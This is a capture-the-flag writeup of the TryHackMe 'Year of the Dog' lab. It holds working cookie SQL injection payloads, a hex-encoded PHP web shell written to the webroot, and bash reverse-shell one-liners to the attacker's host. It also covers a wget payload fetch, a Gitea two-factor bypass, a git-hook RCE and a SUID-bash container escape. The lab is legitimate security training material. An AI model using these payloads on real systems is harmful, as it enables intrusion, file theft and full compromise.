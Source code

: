 ```yaml
---
title: "Year of the Dog"
date: 2023-07-15T16:08:57+05:30
draft: true
toc: true
images:
tags:
  - Writeups
  - TryHackMe
---
```


Machine URL :: [Year of the Dog](https://tryhackme.com/room/yearofthedog)
## ENUMERATION
Nmap scan: `nmap -p- -vv <MACHINE-IP> -oG initial-scan` 
```bash
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
```
SSH on port 22 and webserver on port 80 as usual.

## WEB SERVER

{{< image src="/images/dog/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

I used gobuster for any hidden directories but got nothing.\
### SQL INJECTION
Using burp , we see there is a cookie being stored. We could do some injection with the cookie.

{{< image src="/images/dog/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


This confirms that SQLi is the way to go. UNION SELECT works.\
```sql
Cookie: id=6957bbd77dec77da95bbe62b24d2a92f' UNION SELECT 1,database() -- - 
```
gives databse `webapp`

{{< image src="/images/dog/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

```sql
UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='webapp' -- -
```
gives table `queue`

```sql
UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema='webapp' and table_name='queue'-- -
```
gives 2 columns : `userID` and `queueNum`

Seems like we can even write to webroot using :` INTO OUTFILE '/var/www/html/`
```sql
UNION SELECT 1,'testing' INTO OUTFILE '/var/www/html/test.txt'-- -
```
gives :\
{{< image src="/images/dog/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Using Command :
```sql
UNION SELECT 1,LOAD_FILE('/etc/passwd') -- -
``` 
we got 1 user:
```plain-text
dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```
As RCE detection is triggered by <? we'll have to hex encode our payload and then pass it through SQL unhex function.
```sql
UNION SELECT 1,UNHEX('3C3F7068702073797374656D28244745545B27636D64275D293B203F3E') INTO OUTFILE '/var/www/html/cmd.php' -- -
``` 
Now if it works:

{{< image src="/images/dog/5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It works! \
## INITIAL EXPLOIT
Now to move in , save this : 
```bash
bash -i >& /dev/tcp/<IP Address>/<PORT> 0>&1
``` 
to a file and transfer it to the webserver using :
```plain-text
<MACHINE-IP>/cmd.php?cmd=wget <YOUR-IP>:<PORT>/<file>
```
{{< image src="/images/dog/6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

You should be in:

{{< image src="/images/dog/7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We are www-data. There is the user flag in dylan's home directory but we don't have the permission to read it. We can read the work_analysis file though.
In there we find Dylan's SSH password.

{{< image src="/images/dog/8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## FOOTHOLD

{{< image src="/images/dog/9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Using `ifconfig`, there seems to be a docker address. We don't seem to be in a container so probably that will come later.

{{< image src="/images/dog/18.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Using LinPeas , we find `/app/gitea/gitea web` process running under dylan. Also that localhost is available on port 3000.\
Let's use SSH port forwarding and check out that port\
`ssh dylan@<MACHINE-IP> -L 3000:localhost:3000`

{{< image src="/images/dog/10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Signing in as dylan we get a 2 factor authentication.

{{< image src="/images/dog/11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Going back to dylan, checking `gitea` we find a db: `gitea.db` which is an SQLite3 database.

{{< image src="/images/dog/12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Let's delete the `two_factor table` from `gitea.db`:

{{< image src="/images/dog/13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

And we're in:

{{< image src="/images/dog/14.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## EXPLOITATION
Now searching for any Gitea version 1.13.0 exploits , I found  [CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) exploit.\
In the Test-repo, we go to `settings` > `Git Hooks` > `Post Recieve Hook`.
In this hook , we can write a shell script that will get executed after getting a new commit.

Add `bash -i >& /dev/tcp/<YOUR-IP>/<CHOSEN-PORT> 0>&1 ` to Post Recieve Hook and update it.\
Start a netcat listener, then on your local machine :
```bash
git clone http://localhost:3000/Dylan/Test-repo.git
cd Test-repo
echo "something" >> README.md
git add README.md
git commit -m 'RCE'
git push
```

{{< image src="/images/dog/15.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## PRIVILEGE ESCALATION > ROOT
Now , we're in the container confirmed by the `.dockerenv` file in `/` and we gotta break out. We can `su` rightaway.

{{< image src="/images/dog/16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Check the `/data/` directory as the files are usually mount to host.\

This is the case here as well as the files in `/data` are identical to the `/gitea` directory in Dylan's shell.\
Now just transfer the bash file located in `/bin/` to `/data/` and add the permissions.

{{< image src="/images/dog/17.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Back at Dylan's: run `./bash -p` and you got root.

{{< image src="/images/dog/19.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}






 
 
 
 


